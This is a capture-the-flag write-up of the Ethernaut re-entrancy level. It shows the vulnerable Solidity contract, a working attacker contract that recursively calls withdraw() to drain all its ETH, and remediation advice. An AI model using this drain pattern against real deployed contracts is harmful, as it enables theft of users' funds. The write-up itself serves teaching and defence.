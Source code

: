 ![Re-entrancy](/assets/img/BigLevel10.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level gives us the following information:

> The goal of this level is for you to steal all the funds from the contract.
>
>  Things that might help:
>
> - Untrusted contracts can execute code where you least expect it.
> - Fallback methods
> - Throw/revert bubbling
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

And presents us with the following code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

# Solution

We start by reading the contract's code and interacting with it.

This contract has three public functions which are: `donate()`, `balanceOf()` and `withdraw()`.

- `donate()`: takes an address as input and is declared as payable, so it can receive ETH. This function takes the received `msg.value` and adds it to the balance of the address received as input. If I execute `donate{value: 10}("0x0001")` it will add 10 Wei to the balance of the address "0x0001".

- `balanceOf()`: returns the balance of an address, in this example if we call `balanceOf("0x0001")` it will return 10 (or '0.00000000000000001' ETH).

- `withdraw()`: this function first checks if the input "_amount" is smaller or equal than the balance of the `msg.sender` (implying that only the sender can withdraw the funds and that they need to have that amount of eth, or more, in their balance). If the conditions passes, it will then send the requested amount to the `msg.sender` and update the balance of that address subtracting the withdrew amount.

Note that inside `withdraw()` there is a call to the `msg.sender` to transfer the requested amount. This `msg.sender` could be a wallet or a contract ;) . And, as in the previous level [King WriteUp](/2023-07-11-ethernaut-09-king-writeup/), the contract, can execute code through `receive()` or `fallback()` when funds are sent.

Also, if we look closer to the `withdraw()` function, we can see that it first transfer the requested funds and then updates the balance. This is a very important part of the re-entrancy vulnerabilities... 

Putting all this together, it would be possible to create a contract that:

1. Sends some ETH to the `Reentrance` contract, which will update the balance of it. Let's say 1 ETH.
2. Calls `withdraw()`, this will make the `Reentrance` contract to send back the 1 ETH sent in the previous step.
3. Defines a `fallback()`, this function will be executed when `Reentrance` calls this statement `(bool result,) = msg.sender.call{value:_amount}("");`. Remember that at this point, the balance wasn't updated yet.
4. Inside `fallback()`, the contract can call `withdraw()` again, as the balance wasn't updated yet, the contract will send us the requested ETH again (if it has the funds in its balance) and it will continue repeating this step until there is no ETH left to withdraw. Stealing then all the funds of the contract. Just what we need to pass the level ;)

Before writing this to code, let's see how much ETH does the contract have:

```javascript
web3.utils.toWei(await getBalance(contract.address))
'1000000000000000'
```

Which is the same as saying 0.001 ETH.

Now, let's code the `Solver.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract Solver {
    Reentrance reentrance;

    constructor(address payable _reentranceAddress) public {
        reentrance = Reentrance(_reentranceAddress);
    }

    receive() external payable {
        if (address(reentrance).balance >= 1000000000000000) {
            reentrance.withdraw(1000000000000000);
        }

    }

    function solve() public payable {
        require(msg.value == 1000000000000000, "Send 1000000000000000 Wei");
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(msg.value);
        (bool status, ) = payable(msg.sender).call{value: address(this).balance}("");
        require(status);
    }
}
```

*Note: after withdrawing all the balance of the contract, I added a statement to send stolen funds back to our wallet, so we don't lose those funds :)*

Now we can deploy this `Solver.sol` with the `Reentrance` address as input. And then execute `solve()` sending 1000000000000000 Wei to it. This will make the contract to send 0.001 ETH to the target, incrementing its balance, then call withdraw which will make the target to send us back the 0.001 ETH, activating thus the `receive()` function, which will withdraw the remaining 0.001 ETH that the target has on its balance. Stealing thus all the funds :)

After doing this, we can check again the balance of the contract:

```javascript
web3.utils.toWei(await getBalance(contract.address))
'0'
```

So, that's it! We just won the level :D, now we only have to click "Submit Instance".

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

- Make sure all internal state changes are performed before the call is executed. This is known as the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern).
- Use a reentrancy lock (ie. [OpenZeppelin's ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)).

# References

- [SWC-107](https://swcregistry.io/docs/SWC-107)
- [Hack Solidity: Reentrancy Attack](https://hackernoon.com/hack-solidity-reentrancy-attack)